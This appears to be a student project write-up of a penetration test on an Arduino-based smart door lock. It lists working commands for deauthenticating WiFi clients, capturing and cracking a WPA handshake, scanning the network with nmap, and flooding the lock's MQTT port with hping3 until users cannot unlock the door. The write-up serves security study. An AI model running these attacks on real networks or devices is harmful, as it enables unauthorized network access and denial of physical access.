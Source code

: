 # Security Testing
## Accessing Network
To access the network, we would have to crack the password to enter WiFi network which is done using Kali Linux. To do so, we first need a wireless adapter which in our case is named "wlan0". We would then first stop any concurrent activity using the WiFi interface by running the following command on the terminal:
```console
kali@kali:~$ airmon-ng check kill
```
We then run the next command to enter montiring mode on the wlan0 interface.
```console
kali@kali:~$ airmon-ng start wlan0
```
After that, we would first view all the WiFi networks around us and find our target network by running the command.
```console
kali@kali:~$ airodump-ng wlan0mon
```
At this point we are able to view the different SSID, MAC address of WAP, channels, etc. Once target network is found, we will view all the connected clients by using the command:
```console
kali@kali:~$ airodump-ng -c <channel no.> --bssid <MAC Address of WAP> -w <Name of file for output> wlan0mon
```
From here, we will open up another terminal to disconnect the clients connected to the target network by running the command.
```console
kali@kali:~$ aireplay-ng -0 10 -a <MAC address of WAP> wlan0mon
```
Note:</br>-0 : For deauthentication</br>
       10 : No. of deauthentication packets to be sent</br>
      -a : For the bssid of the target network</br>

Once all clients are disconnected from the target network, we will wait for clients to join back and receive a WPA handshake from this process. After this we will crack the password using the output file we created from the command to view the connected clients to the network. We will run the command:
```console
kali@kali:~$ aircrack-ng -a2 -b <MAC Address of WAP> -w <Output file path> <File of Common Passwords>
```
Note: File of common passwords can be retrieved from crunch tools on https://www.kali.org/tools/crunch/. </br>
We then waited until the WiFi password is matched, hence, we are now able to access the network.

## Finding Target Device
After accessing the network, we will need to find the IP address fo the target device in order to perform attacks on it. To do this we will be using a network scanning tool on Kali Link called "nmap". We will run the follwing command to scan the network we are in.
```console
kali@kali:~$ sudo nmap -sn <Network_Address>
```
This will provide us with the IP address, MAC address and manufacturer name of the devices connected in the network. With that we can discover the Arduino manufactured device on the network which is our target since it will control the lock and camera of the smart door. Thus, we can perform our attack with this information.

## Attack Performed on Target Device
Conducted a denial-of-service (DOS) attack by using the "hping3" tool which allows us to send manipulated packets including size, quantity, and fragmentation of packets in order to overload the target.
</br>
</br>
Command Used:
```console
kali@kali:~$ sudo hping3 "IP ADDRESS of Target" -q -n -d 120 -S -p 8883 --flood --rand-source
```
Note: Port used is 8883 (MQTT TLS port). </br>

We were successful in disrupting the MQTT services which disallowed the users from unlocking their door. To stop the DOS attack, press Ctrl+C on keyboard.</br>

## Video of Penetration Testing
[![Video of Penetration Testing](https://img.youtube.com/vi/gxYScx5LQO0/maxresdefault.jpg)](https://youtu.be/gxYScx5LQO0)


## End
https://github.com/BLBX-7/ET0731_Brian_Keegan_TaiRong
